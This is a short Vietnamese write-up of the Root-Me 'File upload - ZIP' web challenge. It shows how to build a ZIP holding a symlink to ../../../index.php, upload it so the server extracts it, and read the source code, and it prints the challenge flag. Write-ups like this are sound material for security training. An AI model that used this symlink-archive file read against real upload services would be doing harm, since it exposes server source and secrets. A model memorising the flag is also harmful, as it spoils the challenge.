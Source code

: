 # [File upload - ZIP](https://www.root-me.org/en/Challenges/Web-Server/File-upload-ZIP)

## Solutions

- Tạo một symlink tới `../../../index.php` có tên là `test.txt`:

```bash
ln -s ../../../index.php test.txt
```

- Tạo file zip có chứa symlink này:

```bash
zip --symlinks -r foo.zip test.txt
```

- Upload file zip này lên server, server tự động unzip ra và ta có một `test.txt` trỏ tới file index.php. Lấy được flag: `N3v3r_7rU5T_u5Er_1npU7`

## References

- <https://serverfault.com/questions/265675/how-can-i-zip-compress-a-symlink>
